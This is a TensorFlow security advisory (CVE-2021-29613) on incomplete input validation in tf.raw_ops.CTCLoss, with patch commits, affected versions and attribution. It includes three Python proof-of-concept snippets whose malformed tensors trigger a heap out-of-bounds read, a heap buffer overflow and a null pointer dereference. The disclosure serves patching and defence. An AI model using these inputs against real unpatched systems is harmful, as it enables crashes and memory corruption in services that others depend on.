 ## TFSA-2021-101: Incomplete validation in `tf.raw_ops.CTCLoss`

### CVE Number
CVE-2021-29613

### Impact
Incomplete validation in `tf.raw_ops.CTCLoss` allows an attacker to trigger an
OOB read from heap:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[10, 16, 0], dtype=tf.float32)
labels_indices = tf.constant([], shape=[8, 0], dtype=tf.int64)
labels_values = tf.constant([-100] * 8, shape=[8], dtype=tf.int32)
sequence_length = tf.constant([-100] * 16, shape=[16], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=True, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=True)
```

An attacker can also trigger a heap buffer overflow:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[7, 2, 0], dtype=tf.float32)
labels_indices = tf.constant([-100, -100], shape=[2, 1], dtype=tf.int64)
labels_values = tf.constant([-100, -100], shape=[2], dtype=tf.int32)
sequence_length = tf.constant([-100, -100], shape=[2], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=False, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=False)
```

Finally, an attacker can trigger a null pointer dereference:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[0, 2, 11], dtype=tf.float32)
labels_indices = tf.constant([], shape=[0, 2], dtype=tf.int64)
labels_values = tf.constant([], shape=[0], dtype=tf.int32)
sequence_length = tf.constant([-100, -100], shape=[2], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=False, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=False)
```

### Patches
We have patched the issue in GitHub commit
[14607c0707040d775e06b6817325640cb4b5864c](https://github.com/galeone/tensorflow/commit/14607c0707040d775e06b6817325640cb4b5864c)
followed by GitHub commit
[4504a081af71514bb1828048363e6540f797005b](https://github.com/galeone/tensorflow/commit/4504a081af71514bb1828048363e6540f797005b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
